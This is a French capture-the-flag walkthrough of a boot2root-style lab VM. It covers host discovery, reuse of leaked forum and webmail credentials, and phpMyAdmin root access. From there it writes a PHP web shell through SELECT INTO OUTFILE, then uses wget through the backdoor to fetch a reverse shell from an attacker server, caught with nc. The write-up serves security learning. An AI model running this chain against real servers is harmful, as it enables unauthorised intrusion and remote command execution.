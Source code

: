Une fois l'iso lancé, on cherche son IP sur le réseau:
`nmap -sP 192.1.1.0/24`

On scan ensuite les dossiers utilisés par la plupart des appli et serveurs web:
`nmap -sV --script=http-enum <IP>`

On trouve les chemins suivants:
 > /forum/: Forum
/phpmyadmin/: phpMyAdmin
/webmail/src/login.php: squirrelmail version 1.4.22
/webmail/images/sm_logo.png: SquirrelMail

On se rend sur le forum, dans lequel on trouve un topic 'Probleme login ?' posté par lmezard.
Il contient des logs de connexions.
On remarque que le log précédent la connexion réussie de lmezard contient un username ressemblant a un mot de passe : !q\]Ej?*5K5cy*AJ
On utiliser ces credentials pour se connecter au forum.
On accede au profil perso de lmezard dans lequel apparait son adresse mail :
> laurie@borntosec.net

On se rend sur le webmail, et on utilise le mail de lmezard avec son MDP du forum.
Dans la boite, un mail dont l'objet est "DB Access" contient les credentials de root pour la DB :
> root/Fg-'kKXBj87E:aJ$

On se rend sur phpMyAdmin, et on utilise les credentials trouvés dans le mail.
En cliquant sur l'onglet SQL on peut effectuer une injection SQL sur le serveur.
Pour cela on a besoin de lancer la requete suivante:
`SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE "/path/to/writable/directory/backdoor.php"`

On a donc besoin de trouver un dossier sur le serveur avec droits d'écriture. Sinon la requête fail.

On utilise la commande dirb pour scanner les dossiers du serveur:
`dirb https://<IP>`

On trouve toute une liste de dossiers, listables ou non, on les teste les listables, on arrive a écrire dans 
> /forum/templates_c/

Le serveur apache utilise le chemin classique "/var/www" pour stocker ses sites.
On lance donc la requête:
`SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE "/var/www/forum/templates_c/backdoor.php"`

Le fichier backdoor.php va donc exéctuer sur le serveur toute commande passée en argument dans l'URL, par exemple: 
`https://<IP>/forum/templates_c/backdoor.php?cmd=ls`
On obtient bien la liste des fichiers présents dans le dossier.

Pour faciliter la navigation dans le filesystem, on peut uploader un reverse shell sur le serveur pour s'y connecter en remote.
On récupère un reverse-shell sur le web qu'on configure pour fonctionner avec nos VM.
Pour uploader ce shell sur le serveur, on le place sur un serveur perso et on utilise notre backdoor.
Sur le serveur perso, on place php-reverse-shell à la racine du site.
Sur un browser on lance:
`https://<IP>/forum/templates_c/backdoor.php?cmd=wget http://<IPserveur>/php-reverse-shell -O php-reverse-shell.php`
Le shell est désormais sur le serveur.
On ouvre une connexion TCP sur l'hôte :
 `nc -v -n -l -p 1234`
Puis on lance le shell sur le serveur :
`https://<IP>/forum/templates_c/php-reverse-shell.php`
La connexion s'effectue sur l'hôte, on a accès à un terminal sous le user www-data.
